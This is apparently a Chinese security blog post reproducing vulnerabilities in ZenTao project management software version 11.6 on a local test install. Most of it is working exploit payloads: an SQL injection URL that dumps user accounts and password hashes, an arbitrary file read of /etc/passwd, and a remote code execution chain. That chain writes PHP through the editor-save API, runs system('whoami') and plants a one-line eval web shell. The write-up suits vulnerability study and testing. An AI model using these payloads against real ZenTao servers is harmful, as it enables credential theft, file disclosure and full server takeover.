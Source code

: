 ```yaml
---
title: 禅道全版本rce漏洞复现笔记
date: 2020-07-11 18:54:56
categories:
  - 漏洞复现
tags:
  - 漏洞
  - RCE
  - 漏洞复现
  - 禅道
  - zentao
author: Chace
---
```


# 禅道全版本rce漏洞复现笔记



## 漏洞说明

[禅道项目管理软件](https://www.zentao.net/)是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。
此次发现的漏洞正是ZenTaoPHP框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响。本次漏洞复现以ZenTaoPMS.11.6版本作为演示

<!--more-->
## 环境搭建

下载链接：https://www.zentao.net/download/80153.html

解压安装后访问禅道主页 http://127.0.0.1/index.php

![1](1.png)

查看当前版本 http://127.0.0.1:81/zentao/index.php?mode=getconfig

![2](2.png)

至此环境搭建成功

## 漏洞复现
### 漏洞1 SQL注入

首先我们登录admin/CD87691043cs账户修改默认密码，创建一个普通Test0001/1qaz2wsx3edc!@#$用户并登录

>  Payload 

```
http://127.0.0.1/zentao/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

Poc访问结果如下：

![3](3.png)

### 漏洞2 文件读取

> Payload 

```
http://127.0.0.1/zentao/api-getModel-file-parseCSV-fileName=/etc/passwd
```

Poc访问结果如下：

![4](4.png)

由于本地环境是window系统，所以没有回显，我们在xampp\zentao\module\api目录下新建一个test文件，读取

```
http://127.0.0.1/zentao/api-getModel-file-parseCSV-fileName=test
```

![5](5.png)



### 漏洞3 RCE

利用上面的文件读取来执行命令

> Payload1

```http
POST /zentao/api-getModel-editor-save-filePath=1111 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: lang=zh-cn; device=desktop; theme=default; windowWidth=2426; windowHeight=796; zentaosid=vqruohhgn7qbhveakg04h9e267
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

fileContent=<?php phpinfo()?>
```

![6](6.png)

先写入一个phpinfo，再读取访问

需要给物理路径加上一层才能包含成功

```
http://127.0.0.1/zentao/api-getModel-api-getMethod-filePath=1111/1
```

![7](7.png)

> Payload2

```
fileContent=<?php system('whoami');?>
```

![8](8.png)

![9](9.png)


> Payload3(一句话)
```
fileContent=<?php file_put_contents('E://CMS/ZenTaoPMS/xampp/zentao/www/xxx.php.aaa', '<?php @eval($_REQUEST["x"]);?>');?>
```

![10](10.png)

这里是window系统，所以写入绝对路径，绝对路径可以同样用`fileContent=<?php getcwd()?>`获取

```
http://127.0.0.1/zentao/xxx.php.aaa?x=phpinfo();
```

![11](11.png)

*PS:最好使用linux系统安装，windows不要使用一键安装包安装，windows系统安装集成版的话根目录下的php代码好像做了限制，无法执行。*

## 参考链接

[【渗透笔记】禅道](https://www.jianshu.com/p/62bb128ecbdb)

[禅道全版本rce漏洞分析](http://foreversong.cn/archives/1410)